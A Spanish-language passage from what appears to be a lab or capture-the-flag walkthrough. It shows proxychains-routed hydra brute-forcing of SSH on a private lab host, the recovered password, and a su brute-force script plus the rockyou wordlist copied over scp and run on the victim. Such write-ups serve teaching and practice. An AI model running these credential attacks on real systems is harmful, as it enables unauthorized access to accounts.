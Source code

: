 Pero no ha funcionando asi que realizaremos fuerza bruta a los usuario que hemos encontrado y primero empezaremos con **manchi**
```bash
proxychains hydra -l manchi -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://20.20.20.3 2>/dev/null
```

Tenemos un usuario valido:
```bash
[DATA] attacking ssh://20.20.20.3:22/
[22][ssh] host: 20.20.20.3   login: manchi   password: lovely
```

Ahora nos conectaremos atraves de ssh con este usuario:
```bash
proxychains ssh manchi@20.20.20.3 # ( lovely )
```
###### Usuario `[ machi ]`:
Con la enumeracion del sistema no se encontraron fallas de segurida, asi que realizaremos fuerza bruta con una herramienta:
Primero nos copiamos la herramieta a nuestra carpteta:
```bash
sudo cp /usr/bin/Sudo_BruteForce/Linux-Su-Force.sh .
```

Ahora por **ssh** pasando por el **proxy** realizaraemos la copia
```bash
proxychains scp Linux-Su-Force.sh manchi@20.20.20.3:/home/manchi/Linux-Su-Force.sh # ( lovely )
```

Ahora si listamos desde la maquina victima tenemos ya la herramienta:
```bash
 ls -la
total 24
-rwxr-xr-x 1 manchi manchi 1600 Jul  2 00:05 Linux-Su-Force.sh
```

Ahora tambien usaremos el diccionario **rockyou** para este ataque asi que lo transferfimos a la maquina victima:
```bash
cp /usr/share/wordlists/rockyou.txt .
```

Transferimos por **ssh**
```bash
proxychains scp rockyou.txt manchi@20.20.20.3:/home/manchi/rockyou.txt # ( lovely )
```

Una ves transferidas las herramientas lo ejecutamos en la maquina victima de la siguiente manera:
```bash
ls
Linux-Su-Force.sh  rockyou.txt**
```

Ejecucion:
```bash
bash Linux-Su-Force.sh seller rockyou.txt 
```
